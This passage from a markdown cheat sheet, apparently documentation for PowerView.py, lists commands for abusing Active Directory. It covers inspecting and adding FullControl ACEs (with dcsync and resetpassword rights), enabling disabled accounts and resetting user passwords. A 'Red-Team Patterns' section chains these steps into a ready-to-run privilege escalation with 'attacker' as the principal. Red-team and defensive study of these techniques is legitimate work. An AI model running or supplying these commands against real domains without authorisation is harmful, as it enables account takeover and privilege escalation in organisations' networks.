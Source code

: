 ## 🔐 5. Access Control & ACLs

### Inspect ACLs
```bash
-q "Get-DomainObjectAcl -Identity 'OU=Finance,DC=example,DC=com' -ResolveGUIDs"
```

### Add custom ACEs (Full Control to a user/group)
```bash
-q "Add-DomainObjectAcl -TargetIdentity 'OU=Engineering,DC=example,DC=com' -PrincipalIdentity 'auditor' -Rights fullcontrol"
```

### Add inheritance
```bash
-q "Add-DomainObjectAcl -TargetIdentity 'OU=Engineering,DC=example,DC=com' -PrincipalIdentity 'auditor' -Rights fullcontrol -Inheritance"
```

**Supported Rights:**  
`fullcontrol, resetpassword, writemembers, dcsync, immutable`

---

## 🔧 6. Object Modification

| Operation | Command |
|------------|----------|
| Enable user | `-q "Set-DomainObject -Identity 'user1' -Set useraccountcontrol=512"` |
| Disable user | `-q "Set-DomainObject -Identity 'user1' -Set useraccountcontrol=514"` |
| Reset user password | `-q "Set-DomainUserPassword -Identity 'user1' -AccountPassword 'NewPass123!'"` |
| Modify general attribute | `-q "Set-DomainObject -Identity 'user1' -Set @{description='Red Team User'}"` |

---

## 🧠 7. Practical Privilege Chains (Red‑Team Patterns)

The following examples show common AD abuse techniques achievable solely via LDAP ACLs using PowerView.py.

---

### 🪪 a. User Enablement & Password Reset
1. Grant FullControl on an OU:
    ```bash
    -q "Add-DomainObjectAcl -TargetIdentity 'OU=Testing,DC=example,DC=com' \
        -PrincipalIdentity attacker -Rights fullcontrol -Inheritance"
    ```
2. Enable disabled accounts:
    ```bash
    -q "Set-DomainObject -Identity 'test.user' -Set useraccountcontrol=512"
    ```
3. Reset password:
    ```bash
    -q "Set-DomainUserPassword -Identity 'test.user' -AccountPassword 'Password123!'"
    ```

---